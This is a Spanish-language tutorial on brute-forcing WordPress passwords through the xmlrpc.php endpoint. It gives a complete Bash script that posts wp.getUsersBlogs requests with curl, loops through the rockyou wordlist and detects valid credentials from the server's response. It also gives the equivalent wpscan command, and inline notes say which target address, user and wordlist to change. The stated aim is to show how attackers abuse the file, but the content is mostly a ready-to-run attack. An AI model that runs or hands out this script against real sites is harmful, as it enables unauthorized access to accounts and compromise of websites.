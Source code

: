 # Descripción

Cómo abusar del archivo **xmlrpc.php** para mediante la creación de un script de Bash aplicar fuerza bruta. El objetivo será demostrar cómo los atacantes pueden utilizar este archivo existente en WordPress para intentar descubrir credenciales válidas y comprometer la seguridad del sitio web.

Para lograrlo, crearemos un script de Bash en el cual emplearemos la herramienta curl para enviar solicitudes XML-RPC al archivo xmlrpc.php del sitio web WordPress. A través del método **wp.getUsersBlogs**, enviaremos una estructura XML que contendrá el nombre de usuario y la contraseña a probar.

En caso de que las credenciales no sean correctas, el servidor responderá con un mensaje de error que indica que las credenciales son incorrectas. Sin embargo, si las credenciales son válidas, la respuesta del servidor será diferente y no incluirá el mensaje de error.

De esta forma, podremos utilizar la respuesta del servidor para determinar cuándo hemos encontrado credenciales válidas y, de esta forma, tener acceso al sitio web de WordPress comprometido.


**El script es equivalente al siguiente comando de wpsscan para fuerza bruta:**

``wpscan --url https://ejemplo.com:80 -U usuario -P /usr/share/wordlists/rockyou.txt``




	#!/bin/bash

	function ctrl_c(){ 
        echo -e "\n\n[!] Saliendo...\n"
        exit 1
	}
 

	# Ctrl+C
	trap ctrl_c SIGINT


	function createXML(){  
        password=$1
        xmlfile="""
	<?xml version=\"1.0\" encoding=\"UTF-8\"?>
	<methodCall>    
	<methodName>wp.getUsersBlogs</methodName> 
	<params> 
	<param><value>USER</value></param>                  <-- *Debemos ingresar el valor del usuario previamente descubierto*
	<param><value>$password</value></param>             
	</params> 
	</methodCall>"""


        echo $xmlfile > file.xml

        response=$(curl -s -X POST "https://ejemplo.com:80/xmlrpc.php" -d@file.xml)  <-- *debemos cambiar la direccion y puerto deseado y el nombre de archivo correspondiente*

        if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then  <-- *el tipo de respuesta según la que nos devuelva la página objetivo*
        echo -e "\n[+] La contraseña para el usuario es $password"
        exit 0
        fi
	}
 
	
	cat /usr/share/wordlists/rockyou.txt | while read password; do      <-- *Cambiaremos la ruta en caso de querer usar otro diccionario*
        createXML $password
	done
